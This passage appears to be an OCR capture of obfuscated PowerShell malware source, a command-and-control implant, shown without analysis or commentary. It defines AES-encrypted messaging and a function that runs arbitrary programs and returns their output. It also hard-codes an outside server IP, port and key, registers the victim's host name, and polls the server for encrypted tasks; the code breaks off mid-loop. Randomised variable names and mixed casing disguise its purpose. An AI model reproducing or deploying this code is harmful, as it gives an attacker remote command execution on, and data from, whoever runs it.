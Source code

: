 ```powershell
    ${ByTES}             =   (  varIable  'hlvW1' ).vALUE::"uTf8".GetBytes.INVokE(${rOFpdQRF99})
    ${ajujVRAZ99}        = Create-AesManagedObject ${VXZtMFf}
    ${qDIqLGaQ99}         = ${aJujVRAZ99}.CreateEncryptor.inVoKe()
    ${lwihYmIF99}     = ${QdiqLgaq99}.TransformFinalBlock.iNvOKe(${byTeS}, 0, ${byTes}.LeNgTh);
    [byte[]] ${fJAxUWQN99} = ${AJujvRAz99}.Iv + ${lWiHYmiF99}
    ${ajUJVRAZ99}.Dispose.iNVOKE()
     ${xNFd}::"tOBase64STRiNG".iNvoke(${FjAXUWqN99})
}
function deCRyPT(${VXztmFF}, ${bKJrxQCf99}) {
    
    ${bYTEs}           =   (vARiable  'xnfd' ).ValuE::'FromBase64String'.InVOKE(${BkjRxqcF99})
    ${5tMRWpLuY}              = ${BYTes}[0..15]
    ${aJuJVraz99}      = Create-AesManagedObject ${VxZTmFF} ${5TMRwpLUY}
    ${MNDmWYnB99}       = ${AJUjvRAz99}.CreateDecryptor.InVoke();
    ${AhtLMYhl99} = ${MNDmWynB99}.TransformFinalBlock.iNvokE(${bYTES}, 16, ${byTeS}.lENgTH - 16);
    ${AJUjVRAZ99}.Dispose.INVOKE()
      ${HLVW1}::"uTF8".GETStriNg(${AhtLmYhl99}).TRIM(' ')
}
function ShELL(${DfJz1co}, ${yo8xm5}){
    
    ${CwzVYVJ}                        = New-Object 'System.Diagnostics.ProcessStartInfo'
    ${CwZVyVj}.FIlename               = ${DFjZ1co}
    ${CWzvYvj}.reDIRecTsTAnDaRdERrOR  = ${TRue}
    ${cwZVYVJ}.ReDIREcTsTANdarDoUTPUT = ${tRUe}
    ${CWZvyVJ}.USEshELleXeCUTe        = ${FALsE}
    ${cwzvyVJ}.aRgUmENtS              = ${yO8xm5}
    ${p}                            = New-Object 'System.Diagnostics.Process'
    ${P}.sTArTiNFO                  = ${CWzvYVj}
    
    ${p}.Start.INvoKE() | Out-Null
    ${P}.WaitForExit.invoKE()
    
    ${BHnxNUrW99} = ${p}.staNdardOuTpUT.ReadToEnd.INVOkE()
    ${NmWkjOAB99} = ${p}.StANdArdeRrOR.ReadToEnd.Invoke()
    ${kCNjcQdL} = ('VALID '+"$BhnXnUrW99n$nmWKJOAb99")
    ${KcnJcQDl}
}
${FZvyCr}   = '128.199.207.220'
${twFTrI} = '7331'
${VxzTmff}  = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='
${n}    = 3
${Cwj2TWh} = ""
${yCRUTw} =   ${92Y7}::'GetHostName'.inVoKE()
${FNFFGXDzj}  = "p"
${DFctDFM}  = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/reg")
${kVQBXbuR}  = @{
    'name' = "$YCRUTw" 
    'type' = "$fNFFGXDZJ"
    }
${CWj2TWh}  = (Invoke-WebRequest -UseBasicParsing -Uri ${dFctDFM} -Body ${kVqBxbUr} -Method 'POST').coNTENT
${TvYMeYrR99} = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
${iJfySE2}   = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
for (;;){
    
    ${MA04XMgY}  = (Invoke-WebRequest -UseBasicParsing -Uri ${IJFYSE2} -Method 'GET').cONTeNt
    
    if (-Not  ${UJXRc}::'IsNullOrEmpty'.INvOKe(${MA04XmGy})){
        
        ${mA04XMgY} = Decrypt ${VXZTmff} ${Ma04XMgY}
        ${mA04XMgY} = ${ma04XMgy}.split.INvokE()
        ${FLAG} = ${MA04xmgY}[0]
        
```